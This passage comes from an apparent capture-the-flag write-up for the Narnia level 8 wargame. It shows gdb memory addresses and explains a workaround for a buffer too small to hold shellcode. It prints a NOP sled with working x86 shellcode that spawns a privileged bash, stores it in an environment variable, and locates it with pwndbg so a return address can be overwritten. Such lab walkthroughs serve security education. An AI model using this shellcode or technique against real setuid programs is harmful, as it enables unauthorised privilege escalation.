 ![Index html](/assets/images/narnia/08-2.png)

0xffffd4bf -> blah pointer
0xffffd278 -> ebp
0x08049201 -> return address (main)

Unfortunately, our buffer is too small to fit working shellcode, so the past approach of placing shellcode on the buffer and then overwriting the return address doesn't work. However, what we can do is store our shellcode in an environment variable, and then jump to the address of our environment variable instead! Finding the environment variable can be easily done with gdb. First, we will create the environment variable which will store our shellcode along with some NOPs. Note, we have to use command substition here since we can't store raw bytes otherwise:
```bash
narnia8@gibson:/narnia$ export SHELLCODE=$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")
```
Next, use gdb and dereference our environ variable:
```bash
pwndbg> x/s *((char **)environ)
0xffffd4d4:     "SHELL=/bin/bash"
pwndbg> x/s *((char **)environ+1)
0xffffd4e4:     "SHELLCODE=", '\220' <repeats 67 times>, "j\vX\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341̀"
```
Since we only want the shellcode part, we will add 10 to our address to get rid of the "SHELLCODE=" part. Thus, our return address will be 0xffffd4ee:
```bash
pwndbg> x/s 0xffffd4e4+10
0xffffd4ee:     '\220' <repeats 67 times>, "j\vX\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341̀"
```
